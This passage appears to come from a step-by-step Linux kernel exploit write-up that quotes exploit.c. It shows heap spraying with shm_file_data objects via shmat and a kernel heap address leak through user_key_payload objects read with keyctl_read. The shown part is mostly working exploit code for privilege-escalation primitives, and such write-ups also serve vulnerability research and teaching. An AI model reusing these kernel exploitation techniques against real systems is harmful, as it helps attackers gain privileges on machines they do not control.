 - [exploit.c#L448](./exploit.c#L448):
```c
key_serial_t user_key_payload_alloc(const char *desc, void *data, int n)
{
  key_serial_t key = add_key("user", desc, data, n, KEY_SPEC_USER_KEYRING);
  if (key < 0) {
    perror("add_key");
    return -1;
  }

  return key;
}
```

- Reclaim with `struct shm_file_data` object [exploit.c#L635](./exploit.c#L635):

```c
if (!shm_file_data_alloc(shmids, 256))
  return 0;
```

- [exploit.c#L423](./exploit.c#L423):

```c
bool shm_file_data_alloc(int *shmids, int n)
{
  for (int i = 0; i < n; i++) {
    if (!shmat(shmids[i], NULL, 0)) {
      perror("shmat");
      return false;
    }
  }

  return true;
}
```

### Step3.4: Leak heap with `struct user_key_payload` object
- [exploit.c#L638](./exploit.c#L638):

```c
if ((sz = user_key_payload_read(read_kmalloc_32_key, leak_buffer, sizeof(leak_buffer))) < 0)
  return 0;
```

- [exploit.c#L459](./exploit.c#L459):

```c
long user_key_payload_read(key_serial_t key, void *buf, int n)
{
  long ret = keyctl_read(key, buf, n);
  if (ret < 0) {
    perror("keyctl_read");
    return -1;
  }

  return ret;
}
```
